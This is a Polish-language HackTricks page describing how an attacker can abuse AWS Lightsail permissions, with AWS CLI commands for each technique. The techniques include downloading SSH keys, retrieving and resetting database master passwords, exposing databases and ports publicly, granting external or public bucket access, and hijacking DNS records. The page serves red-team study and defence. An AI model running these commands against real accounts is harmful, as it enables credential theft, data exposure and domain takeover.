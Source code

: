 # AWS - Eskalacja uprawnień w usłudze Lightsail

<details>

<summary><strong>Dowiedz się, jak hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLAN SUBSKRYPCJI**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Lightsail

Aby uzyskać więcej informacji na temat Lightsail, sprawdź:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Warto zauważyć, że Lightsail **nie korzysta z ról IAM należących do użytkownika**, ale do zarządzanego konta AWS, więc nie można wykorzystać tej usługi do eskalacji uprawnień. Jednak **wrażliwe dane**, takie jak kod, klucze API i informacje o bazie danych, mogą być znalezione w tej usłudze.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

To uprawnienie umożliwi Ci pobranie kluczy SSH do dostępu do instancji:
```
aws lightsail download-default-key-pair
```
**Potencjalne skutki:** Znalezienie wrażliwych informacji wewnątrz instancji.

### `lightsail:GetInstanceAccessDetails`

To uprawnienie umożliwi Ci generowanie kluczy SSH do dostępu do instancji:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Potencjalne skutki:** Znalezienie wrażliwych informacji wewnątrz instancji.

### `lightsail:CreateBucketAccessKey`

To uprawnienie umożliwi Ci uzyskanie klucza dostępu do kubełka:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Potencjalne skutki:** Znalezienie wrażliwych informacji wewnątrz kubełka.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

To uprawnienie umożliwi Ci uzyskanie poświadczeń dostępu do bazy danych:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Potencjalne skutki:** Znalezienie wrażliwych informacji w bazie danych.

### `lightsail:UpdateRelationalDatabase`

To uprawnienie umożliwia zmianę hasła dostępu do bazy danych:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

Jeśli baza danych nie jest publiczna, możesz również uczynić ją publiczną, nadając jej te uprawnienia:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**Potencjalne skutki:** Znalezienie wrażliwych informacji wewnątrz bazy danych.

### `lightsail:OpenInstancePublicPorts`

To uprawnienie umożliwia otwarcie portów do Internetu.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Potencjalne zagrożenie:** Dostęp do wrażliwych portów.

### `lightsail:PutInstancePublicPorts`

To uprawnienie umożliwia otwieranie portów do Internetu. Należy zauważyć, że to wywołanie zamknie wszystkie porty, które nie zostały w nim wymienione.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Potencjalne skutki:** Dostęp do wrażliwych portów.

### `lightsail:SetResourceAccessForBucket`

To uprawnienie umożliwia udostępnienie instancji dostępu do kubełka bez dodatkowych poświadczeń

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**Potencjalne skutki:** Potencjalny nowy dostęp do kubełków z poufnymi informacjami.

### `lightsail:UpdateBucket`

Z tym uprawnieniem atakujący mógłby nadać swojemu własnemu kontu AWS dostęp do odczytu kubełków lub nawet uczynić kubełki publicznymi dla wszystkich:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Potencjalne skutki:** Potencjalny nowy dostęp do kubełków z poufnymi informacjami.

### `lightsail:UpdateContainerService`

Z tymi uprawnieniami atakujący mógłby udzielić dostępu do prywatnych ECR-ów z usługi kontenerów.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Potencjalne zagrożenie:** Uzyskanie poufnych informacji z prywatnego ECR

### `lightsail:CreateDomainEntry`

Atakujący posiadający te uprawnienia mógłby utworzyć subdomenę i skierować ją na swój własny adres IP (przejęcie subdomeny), lub stworzyć rekord SPF, który pozwalałby mu na podszywanie się pod adres e-mail z domeny, lub nawet ustawić główną domenę na swój własny adres IP.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potencjalne skutki:** Przejęcie domeny

### `lightsail:UpdateDomainEntry`

Atakujący posiadający te uprawnienia mógłby utworzyć subdomenę i skierować ją na swój własny adres IP (przejęcie subdomeny), lub stworzyć rekord SPF, który pozwalałby mu na podszywanie się pod adres e-mail domeny, lub nawet ustawić główną domenę na swój własny adres IP.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potencjalne zagrożenie:** Przejęcie domeny

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLAN SUBSKRYPCJI**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
